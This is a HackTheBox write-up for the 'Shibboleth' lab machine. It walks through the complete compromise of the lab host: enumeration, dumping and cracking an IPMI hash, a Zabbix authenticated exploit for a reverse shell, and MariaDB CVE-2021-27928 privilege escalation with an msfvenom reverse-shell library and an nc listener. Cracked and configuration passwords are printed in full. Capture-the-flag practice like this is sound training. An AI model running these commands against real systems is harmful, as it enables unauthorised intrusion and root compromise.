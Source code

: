 ```yaml
---
title: Shibboleth - Medium HTB
date: 2024-01-27 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /shibboleth
tags: [htb, writeup, medium, Zabbix, CVE, MYSQL, 4nh4ck1ne]     # TAG names should always be lowercase
---
```


# Shibboleth

![Untitled](assets/Shibboleth/LOGO.png)

## **Scanning :**

Lets begin with a nmap to see what ports is opens on the target system : 

```python
> nmap -sS -sV -sC -T4 10.10.11.124 -Pn

#output
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb
```

Add the machine hostname to your `/etc/hosts` file: 

```bash
echo "10.10.11.124 shibboleth.htb" >> /etc/hosts
```

## **Enumerate the web service :**

use whatweb to see the technologie used by the web site : 

```bash
> whatweb -a 3 shibboleth.htb

#output 
http://shibboleth.htb [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[contact@example.com,info@example.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.124], Lightbox, PoweredBy[enterprise], Script, Title[FlexStart Bootstrap Template - Index]
```

Lets lauche a gobuster bf to enumerate the web page :

```bash
> gobuster dir -u http://shibboleth.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t50

#output
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/]
/server-status        (Status: 403) [Size: 279]
```

we found nothing interesting so we can try to bf the vhosts to find another web service.

Enumerate the vhost with fuff : 

```bash
> ffuf -u http://shibboleth.htb/ -H "Host: FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fw 18

#output 
[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 290ms]
    * FUZZ: monitoring

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 292ms]
    * FUZZ: monitor

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 46ms]
    * FUZZ: zabbix
```

all vhosts redirect to the same page ducoup you can add just one of the 3 to your/etc/hosts, and ducoup one comes across a login page of the zabbix software which is a monitoring software for computer park: 

![Untitled](assets/Shibboleth/login.png)

## **Enumerate and exploit zabbix :**

first I want to find the version of zabbix ducoup I find on github repo with tools:

[GitHub - freeworkaz/zabbix_test: this is some scripts for pentesting zabbix server](https://github.com/freeworkaz/zabbix_test)

You must use the zabbix_version_detect.py script here the code after midification:

```python
"""
This script is for testing zabbix version
by version of the docs on the logon page
"""

import urllib2  
import re
from bs4 import BeautifulSoup  

zab_page='http://monitor.shibboleth.htb/index.php' 
page=urllib2.urlopen(zab_page)
soup = BeautifulSoup(page, 'html.parser')
for link in soup.findAll('a', attrs={'href': re.compile("documentation")}):
    version=link.get('href')

parts=re.split('/', version)

a=''.join (parts[4:5])
print "zabbix version is",a
```

run it see the version : 

```python
> python2 zabbix_version_detect.py 
zabbix version is 5.0
```

Lets rescan the target but that time with a udp scan : 

```python
> nmap -sU -T4 -Pn 10.10.11.124 -n --max-retries 1

623/udp open  asf-rmcp
```

after looking for information on port 623 I came across the [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi) page that my well informed on the subject.

Lets see the version of IPMI : 

```python
> nmap -sU --script ipmi-version -p 623 10.10.11.124

623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0
```

lets dump the admin hash with [ipmipwner](https://github.com/c0rnf13ld/ipmiPwner) : 

```python
> git clone https://github.com/c0rnf13ld/ipmiPwner

#install requirements : 
> ./requirements.sh

#dump admin hash
>./ipmipwner.py --host 10.10.11.124

[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[*] The username: Administrator is valid                                                                                    
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a002030000ebc053f6d5ef225d169dc8006bde6c16e8e71d82f8ff1cd441422c4f763f3348a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$a8e600ba41d6a1e70d9636a223af3374fb287b7b
```

Use john to crack the hash : 

```python
> john zabbix_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (?)     
1g 0:00:00:01 DONE (2023-12-24 11:30) 0.7462g/s 5526Kp/s 5526Kc/s 5526KC/s iluve.p..ilovejesus789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And connect your self on the app : 

![Untitled](assets/Shibboleth/pannel_admin.png)

the next step is too gain reverse shell, I found a exploit who do that : 

https://www.exploit-db.com/exploits/50816

Downlaod it with searchsploit : `searchsploit -m 50816.py`

Run ti and gain your reverse shell : 

```python
#run listener : 
> pwncat-cs :9001

#run the exploit you should by patient...
> python 50816.py http://monitor.shibboleth.htb/ "Administrator" "ilovepumkinpie1" 10.10.16.9 9001

[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/                                                                                                                                                                                 
[+] the payload has been Uploaded Successfully                                                                                                                                                                                              
[+] you should find it at http://monitor.shibboleth.htb//items.php?form=update&hostid=10084&itemid=33618                                                                                                                                    
[+] set the listener at 9002 please...                                                                                                                                                                                                      
[?] note : it takes up to +1 min so be patient :)                                                                                                                                                                                           
[+] got a shell ? [y]es/[N]o: y                                                                                                                                                                                                             
Nice !
```

You can can move lateraly on the user ipmi-svc, for that reuse the password of the administrator hash. 

## **Privileges Escalation Exploit mysql CVE:**

After lot of enumeration we found the password of the db stored in the `/etc/zabbix/zabbix_server.conf`

```python
### Option: DBUser
#       Database user.
#
# Mandatory: no
# Default:
# DBUser=

DBUser=zabbix

### Option: DBPassword
#       Database password.
#       Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh
```

log your self on the db and start the enumeration : 

```python
#view the version of mysql
select version();
```

if we look for a known vuln on the internet there is a way to increase our privileges from mysql.

[GitHub - Al1ex/CVE-2021-27928: CVE-2021-27928 MariaDB/MySQL-'wsrep provider' 命令注入漏洞](https://github.com/Al1ex/CVE-2021-27928)

So step 1 on create the payload and start listener : 

```python
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=1234 -f elf-so -o CVE-2021-27928.so

> nc -lnvp 1234
```

Now upload it with your pwncat session : 

```python
> upload CVE-2021-27928.so
```

Final exploit the mysql db : 

```python
#mysql shell 
> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

look your listner: 

![Untitled](assets/Shibboleth/root.png)

original deaths from the beginning to the end I hope she will serve me for Zephyr ! 😁
